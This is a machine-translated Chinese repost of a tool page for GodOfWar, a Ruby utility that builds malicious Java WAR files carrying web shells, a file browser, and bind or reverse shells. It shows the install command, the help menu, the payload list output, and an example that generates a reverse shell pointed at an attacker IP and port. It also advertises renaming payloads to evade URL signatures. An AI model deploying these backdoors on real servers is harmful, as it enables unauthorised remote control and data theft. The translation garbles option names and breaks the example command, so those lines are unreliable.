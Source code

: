 # GodOfWar:带有内置有效负载的恶意 Java WAR Builder

> 原文：<https://kalilinuxtutorials.com/godofwar-malicious-java-war-builder/>

GodOfWar 是一个命令行工具，用于为渗透测试/ red teaming 目的生成 War 有效载荷，用 ruby 编写。

**特性**

*   先前存在的有效载荷。(try-l/–list)
    *   cmd_get
    *   文件浏览器
    *   绑定 _ 外壳
    *   反向 _ 外壳
    *   反向外壳界面
*   可配置后门。(尝试–主机/-端口)
*   对有效负载名称的控制。
    *   为避免恶意命名，在部署后绕过 URL 名称签名。

**也读-[MySQL 魔法:从内存中转储 MySQL 客户端密码](https://kalilinuxtutorials.com/mysql-magic-dump-mysql/)**

**安装**

**$ gem 安装 godofwar**

**用途**

**$ godofwar -h**

**帮助菜单:**
-p，–PAYLOAD 有效载荷从一个可用的有效载荷中生成 war。(check-l/–list)
-H，–主机 IP_ADDR 所选有效负载的本地或远程 IP 地址(与-P/–有效负载一起使用)
-P，–端口所选有效负载的本地或远程端口(与-P/–有效负载一起使用)
-o，–Output[FILE]输出文件和部署名称。
(默认为有效载荷原始名称。check '-l/–list ')
-l，–list 列出所有可用的有效负载。
-h，–帮助显示此帮助信息。

**例子**

列出所有有效负载

```
$ godofwar -l
├── cmd_get
│   └── Information:
│       ├── Description: Command execution via web interface
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/cmd.jsp?cmd=whoami
│       ├── References:  ["https://github.com/danielmiessler/SecLists/tree/master/Payloads/laudanum-0.8/jsp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/cmd_get
├── filebrowser
│   └── Information:
│       ├── Description: Remote file browser, upload, download, unzip files and native command execution
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/filebrowser.jsp
│       ├── References:  ["http://www.vonloesch.de/filebrowser.html"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/filebrowser
├── bind_shell
│   └── Information:
│       ├── Description: TCP bind shell
│       ├── OS:          any
│       ├── Settings:    {"port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse-shell.jsp
│       ├── References:  ["Metasploit - msfvenom -p java/jsp_shell_bind_tcp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/bind_shell
├── reverse_shell_ui
│   └── Information:
│       ├── Description: TCP reverse shell with a HTML form to set LHOST and LPORT from browser.
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell_ui.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell_ui
├── reverse_shell
│   └── Information:
│       ├── Description: TCP reverse shell. LHOST and LPORT are hardcoded
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell
```

用 **LHOST** 和 **LPORT** 生成有效载荷

**godofwar-P reverse _ shell-H 192 . 168 . 100 . 10-P 9911-o 小狗**

[Download](https://github.com/KINGSABRI/godofwar)